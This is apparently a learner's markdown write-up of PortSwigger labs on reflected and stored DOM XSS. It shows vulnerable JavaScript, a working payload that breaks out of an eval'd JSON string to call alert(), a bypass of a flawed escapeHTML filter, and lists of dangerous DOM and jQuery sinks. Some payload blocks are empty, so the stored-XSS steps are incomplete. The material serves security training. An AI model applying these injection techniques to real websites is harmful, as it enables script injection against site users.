


## DOM XSS combined with reflected and stored data

Some pure DOM-based vulnerabilities are self-contained within a single page. If a script reads some data from the URL and writes it to a dangerous sink, then the vulnerability is entirely client-side.

However, sources aren't limited to data that is directly exposed by browsers - they can also originate from the website. For example, websites often reflect URL parameters in the HTML response from the server. This is commonly associated with normal XSS, but it can also lead to so-called reflected+DOM vulnerabilities.

In a reflected+DOM vulnerability, the server processes data from the request, and echoes the data into the response. The reflected data might be placed into a JavaScript string literal, or a data item within the DOM, such as a form field. A script on the page then processes the reflected data in an unsafe way, ultimately writing it to a dangerous sink.

`eval('var data = "reflected string"');`

## Lab: Reflected DOM XSS

> This lab demonstrates a reflected DOM vulnerability. Reflected DOM vulnerabilities occur when the server-side application processes data from a request and echoes the data in the response. A script on the page then processes the reflected data in an unsafe way, ultimately writing it to a dangerous sink.
> To solve this lab, create an injection that calls the `alert()` function.

--> I Found one js file called `searchItem.js` in source code and This part was interesting:

```js
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function () {
  if (this.readyState == 4 && this.status == 200) {
    eval("var searchResultsObj = " + this.responseText);
    displaySearchResults(searchResultsObj);
  }
};
xhr.open("GET", path + window.location.search);
xhr.send();
```

--> I tried payloads like `'alert(1)` and `"alert(1)` to close the quotes and trigger the alert but it was escaping quotes using `\` so after that i bypassed it using `\"` where one `\` will escape this backslash and `"` will end the string.

==> But how we can trigger an alert here?

--> So i found that we can use any arithmetic operator to add js function

So i made this payload:

```js
\"-alert(1)//
```

Here `\"` will bypass and close the `searchresultObj` value and `-` used the seperate the operations and at last `//` will comment out rest of the json data.

Payload will look like this in backend :

```js
{"searchTerm":"\\"-alert(1)}//", "results":[]}
```

--> And after entering this payload i solved the lab!

---

Websites may also store data on the server and reflect it elsewhere. In a stored+DOM vulnerability, the server receives data from one request, stores it, and then includes the data in a later response. A script within the later response contains a sink which then processes the data in an unsafe way.

`element.innerHTML = comment.author`

## Lab: Stored DOM XSS

> This lab demonstrates a stored DOM vulnerability in the blog comment functionality. To solve this lab, exploit this vulnerability to call the `alert()` function

--> So i found one js file in source code of post comment section which was `loadCommentsWithVulnerableEscapeHtml.js`

And i found this part intersting :

```js
if (comment.author) {
  if (comment.website) {
    let websiteElement = document.createElement("a");
    websiteElement.setAttribute("id", "author");
    websiteElement.setAttribute("href", comment.website);
    firstPElement.appendChild(websiteElement);
  }

  let newInnerHtml = firstPElement.innerHTML + escapeHTML(comment.author);
  firstPElement.innerHTML = newInnerHtml;
}
```

And `escapeHTML` function looks like this:

```js
function escapeHTML(html) {
  return html.replace("<", "&lt;").replace(">", "&gt;");
}
```

So this function is replacing `>` and `<` but it's using `replace` function which will replace only first occurance of tag. So i tried simple `img` payload which looks like this:

```html

```

And after entering it into `author` field i saw the source code using inspect element and it looks like this:



So it didn't get executed so i tried to close that `p` tag and again opened it like this:

```html
</p><p>
```

And it worked!

And it looks like this in code:



And we solved the lab!

---

## Which sinks can lead to DOM-XSS vulnerabilities?

The following are some of the main sinks that can lead to DOM-XSS vulnerabilities:

```js
document.write();
document.writeln();
document.domain;
element.innerHTML;
element.outerHTML;
element.insertAdjacentHTML;
element.onevent;
```

The following jQuery functions are also sinks that can lead to DOM-XSS vulnerabilities:

```js
add();
after();
append();
animate();
insertAfter();
insertBefore();
before();
html();
prepend();
replaceAll();
replaceWith();
wrap();
wrapInner();
wrapAll();
has();
constructor();
init();
index();
jQuery.parseHTML();
$.parseHTML();
```

## How to prevent DOM-XSS vulnerabilities

In addition to the general measures described on the [DOM-based vulnerabilities](https://portswigger.net/web-security/dom-based) page, you should avoid allowing data from any untrusted source to be dynamically written to the HTML document.
